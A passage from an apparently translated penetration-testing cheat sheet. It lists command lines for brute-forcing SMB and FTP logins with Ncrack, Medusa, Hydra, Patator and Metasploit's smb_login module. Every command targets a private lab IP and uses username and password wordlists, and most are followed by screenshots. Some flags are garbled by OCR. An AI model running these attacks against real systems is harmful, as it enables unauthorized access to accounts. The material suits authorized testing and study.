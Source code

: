#### Ncrack

> **ncrack –u /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVXr2WjUgZsCWBibmV67DYeG0c2icjtGdM8FQwIXP1PxJAXRQ4TExxStfQ/640?wx_fmt=png)

#### Medusa

> **medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVADeVLicgKm5DvR9iaH9Wr8TtkmPCAYWgCo4D4Tulpo9wtAXgzwyUTIUQ/640?wx_fmt=png)

#### Metasploit

```
use auxiliary/scanner/smb/smb_login
msf exploit (smb_login)>set rhost 192.168.1.118
msf exploit (smb_login)>set user_•le /root/Desktop/user.txt
msf exploit (smb_login)>set pass_•le /root/Desktop/pass.txt
msf exploit (smb_login)>set stop_on_success true
msf exploit (smb_login)>exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVIFWUN4wKDQUPK4YjBeON1ZKLS5ItlmoqmxqWqq4vkZnmE1zbcFicA9g/640?wx_fmt=png)

### FTP 

#### Hydra

> **hydra –L/root/Desktop/user.txt –P /root/Desktop/pass.txt 192.168.1.103 ftp**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVZlBXasU2bYN4BFvYPL5fdS0OGyuEo8bnxkvxl5dxRlaCuL3WCRPqng/640?wx_fmt=png)

#### Ncrack

> **ncrack –v –U /root/Desktop/user.txt–P /root/Desktop/pass.txt 192.168.1.103:21**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVIicnsbXnDbX2GDH141t4E6JYEYukKvLa0TfMlUwlysMDWiakWzXNX5qA/640?wx_fmt=png)

#### Medusa

> **Medusa -h 192.168.1.103 –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M ftp**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsV0IW8OY9kiaMl5bLnjCtfDx4JP3nk2eHbA3CHWIknibehgLf1WiaTzhGPQ/640?wx_fmt=png)

#### Patator

> **patator ftp_login host=192.168.1.103 user=FILE0 0=/root/Desktop/user.txt password=FILE1 1=/root/Desktop/pass.txt**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsViaL404J4iaRn5NbLGld2yPKlfhXlviacJVNBkPSibfS627Kk9GMPvV6qOA/640?wx_fmt=png)

#### Metasploit
